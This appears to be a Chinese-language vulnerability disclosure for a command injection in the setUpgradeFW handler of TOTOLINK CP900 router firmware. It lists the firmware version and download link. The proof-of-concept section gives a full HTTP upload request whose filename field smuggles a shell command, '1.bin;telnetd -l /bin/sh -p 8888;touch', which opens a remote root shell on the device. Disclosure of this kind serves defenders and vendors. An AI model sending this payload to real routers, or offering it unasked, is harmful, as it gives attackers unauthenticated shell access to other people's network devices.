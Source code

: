 # TOTOLINK 命令注入漏洞

品牌: TOTOLINK

产品型号: CP900

固件版本: TOTOLINK_C8B810C-1A_CP900_CP0016_QCA9531_SPI_16M128M_V6.3c.566_B20171026_ALL.web

下载链接: http://www.totolink.cn/data/upload/20210720/5bee10397c082b0419cbad3eb7d1bd97.zip

## 漏洞细节

Totolink  CPE CP900  V6.3c.566_B20171026 存在命令注入漏洞在setUpgradeFW 函数中，filename参数未作过滤。该漏洞允许攻击者通过精心编制的请求执行任意命令。

 ![image-20220328125422820](5-1.png)

## POC

 ```http
 POST /cgi-bin/cstecgi.cgi?action=upload&setting/setUpgradeFW HTTP/1.1
 Host: 192.168.0.254
 User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:97.0) Gecko/20100101 Firefox/97.0
 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
 Accept-Language: en-US,en;q=0.5
 Accept-Encoding: gzip, deflate
 Content-Type: multipart/form-data; boundary=---------------------------331951820841881804292816452126
 Content-Length: 11321327
 Origin: http://192.168.0.254
 Connection: close
 Referer: http://192.168.0.254/adm/upload_firmware.asp?timestamp=1648443428280
 Cookie: SESSION_ID=2:1648443350:2
 Upgrade-Insecure-Requests: 1
 
 -----------------------------331951820841881804292816452126
 Content-Disposition: form-data; name="filename"; filename="1.bin;telnetd -l /bin/sh -p 8888;touch"
 Content-Type: application/octet-stream
 
 ....
 
 ```
